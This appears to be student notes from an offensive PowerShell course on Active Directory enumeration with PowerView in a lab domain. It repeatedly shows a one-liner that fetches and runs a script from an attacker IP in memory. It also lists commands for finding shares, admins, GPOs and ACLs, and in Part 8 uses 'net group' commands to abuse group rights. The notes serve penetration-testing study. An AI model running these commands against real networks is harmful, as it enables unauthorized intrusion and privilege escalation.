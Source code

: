 ### Offensive PowerShell Part 4 - Enumerating Domain Computers and Shares
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- Find active computers
	- `get-netcomputer`
- Find active computers with all relevant data
	- `get-netcomputer -FullData`
- Find specific *OSes* 
	- `Get-NetComputer -OperatingSystem "*Windows 10*"`
	- `Get-NetComputer -OperatingSystem "*server 2019"`
- Find *file-shares*
	- `Invoke-ShareFinder`
	- `Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC -verbose`
	- `Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC`

### Offensive PowerShell Part 5 - Invoke-FileFinder
 - Parse available *file-shares*
	 - `Invoke-FileFinder`

### Offensive PowerShell Part 6 - Enumerating Local Admin Users
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- `Invoke-EnumerateLocalAdmin`

### Offensive PowerShell Part 7 - Enumerating Group Policy Objects
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- `get-netgpo`
	- Notable mentions:
		- `WinRM Firewall TCP 5985`
		- `Enable PSRemoting Desktops`

### Offensive PowerShell Part 8 - Enumerating Access Control Lists
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- There will be thousand of *ACL* rules in this output
	- `get-objectacl`
- Note in this output `ActiveDirectoryRights : GenericAll` means the `IdenitityReference : mayorsec\Sales` has full rights to this group
	- This could lead to potential compromises
		- `get-objectacl -SamAccountName "engineering" -ResolveGUIDs`
		- Verify the users in `Sales` that have change rights of the `Engineering` group
			- `net group sales /domain`
		- Verify the users in the `Engineering` group
			- `net group engineering /domain`
		- Delete a user from the `Engineering` domain
			- This is only possible because the current user `s.chisholm` is a part of the `Sales` group
			- `net group engineering r.smith /del /domain`
		- Add `s.chisholm` to the `Engineering`
			- `net group engineering s.chisholm /add /domain`
